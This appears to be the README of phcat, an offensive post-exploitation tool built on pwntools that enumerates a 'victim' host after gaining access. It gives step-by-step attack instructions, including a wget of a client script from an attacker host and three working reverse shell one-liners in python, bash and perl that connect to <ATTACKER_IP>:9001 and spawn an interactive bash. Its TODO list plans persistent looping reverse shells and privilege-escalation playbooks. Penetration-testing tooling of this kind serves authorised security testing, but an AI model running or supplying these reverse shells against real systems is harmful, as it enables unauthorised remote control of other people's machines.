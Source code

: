 # Description
phcat automates and keeps track of what enumeration you've done on the victim system and provides hints on vulnerabilities, misconfigurations, or other interesting facts about your victim host. phcat aspires to automate exploitation as well in a near future, similarly -- but worse -- than Caleb Stewarts's pwncat. The entry point is a reverse shell which is implemented using Gallopsled's pwntools.

# Screenshots
![phcat screenshot 1](/screenshots/screenshot1.png)
![phcat screenshot 2](/screenshots/screenshot2.png)
![phcat screenshot 3](/screenshots/screenshot3.png)

# Steps using HTTP web server
1. (on attacker): python3 http_server.py
2. (on victim): wget <ATTACKER_IP>:8000/victim_client_<ATTACKER_IP>.py
3. (on attacker): python3 listener.py -v <VICTIM_IP>
4. (on victim): python3 victim_client_<ATTACKER_IP>.py

# Steps using reverse shell one-liner
1. (on attacker): python3 listener.py -v <VICTIM_IP>
2. Reverse shell one-liners (on victim)
    - [python2]: python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    - [bash]: bash -i >& /dev/tcp/<ATTACKER_IP>/9001 0>&1
    - [perl]: perl -e 'use Socket;$i="<ATTACKER_IP>";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# TODO
- (Low) Create several implementations for looping reverse shells in case python isn't available  
  - (Low) Implement "persisting" looping reverse shell install  
- (Low) Implement menu with list of playbooks that can be run for enumeration, privesc, etc  
    - (Low) Have menu items show if an error occured of if the playbook results are already available  
    - (Low) Show details about found results and what steps to take next  
    - menu['show']['network']['all'] = function  
    - show enumerate  
      [ ] 1. Check SUID binaries  
    - use enumerate 1  
    - show network  
      [ ] 1. Local IPv4s  
      [X] 2. Connected subnets  
      [ ] 3. Reachable online hosts  
    - show network 2  
- (Low) Upload and run linpeas.sh, save locally. Make it as part of the menu of things to run.  
- (Low) Some kind of client/server written on python which allows me to send commands to the victim via an encrypted channel and he just run code locally. Implement with as little dependencies as possible (will require at least python3). Since python3 is required, maybe this isn't a great idea. Might as well just send commands to the victim directly via pwntools.  
- (Low) If long running commands aren't working, echo a magic string and run recvuntil that magic string is encountered  
- (Low) Better logging with colors and stuff!  
- (Low) When checking SUID files, compare against pre-built list of 'known' default install binaries. Also check creation dates for clues.

